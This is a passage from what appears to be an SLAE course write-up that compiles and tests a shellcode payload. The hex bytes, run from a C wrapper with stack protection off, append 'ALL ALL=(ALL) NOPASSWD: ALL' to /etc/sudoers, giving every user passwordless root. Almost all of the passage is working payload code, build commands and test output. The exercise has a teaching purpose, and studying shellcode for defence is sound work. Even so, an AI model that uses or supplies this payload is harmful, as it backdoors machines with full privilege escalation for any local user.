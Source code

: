 Let's test by compiling and extracting the shellcode.

```
root@ubuntu:~/SLAE/assignments/6$ ./compile.sh editsudoers_jmp
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
root@ubuntu:~/SLAE/assignments/6# for i in $(objdump -d editsudoers_jmp |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x31\xd2\x31\xc9\x52\x68\x6f\x65\x72\x73\x68\x2f\x73\x75\x64\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\x6a\x05\x58\xcd\x80\x93\xeb\x0d\x59\xb2\x1c\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xee\xff\xff\xff\x41\x4c\x4c\x20\x41\x4c\x4c\x3d\x28\x41\x4c\x4c\x29\x20\x4e\x4f\x50\x41\x53\x53\x57\x44\x3a\x20\x41\x4c\x4c\x0a
```

C wrapper:

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xd2\x31\xc9\x52\x68\x6f\x65\x72\x73\x68\x2f\x73\x75\x64\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\x6a\x05\x58\xcd\x80\x93\xeb\x0d\x59\xb2\x1c\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xee\xff\xff\xff\x41\x4c\x4c\x20\x41\x4c\x4c\x3d\x28\x41\x4c\x4c\x29\x20\x4e\x4f\x50\x41\x53\x53\x57\x44\x3a\x20\x41\x4c\x4c\x0a";
main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Compile without stack protection.

```
root@ubuntu:~/SLAE/assignments/6# gcc shellcode.c -o shellcode -fno-stack-protector -z execstack
```

And finally test. 

```
root@ubuntu:~/SLAE/assignments/6# ./shellcode
Shellcode Length:  79
root@ubuntu:~/SLAE/assignments/6# cat /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults	env_reset
Defaults	mail_badpass
Defaults	secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

```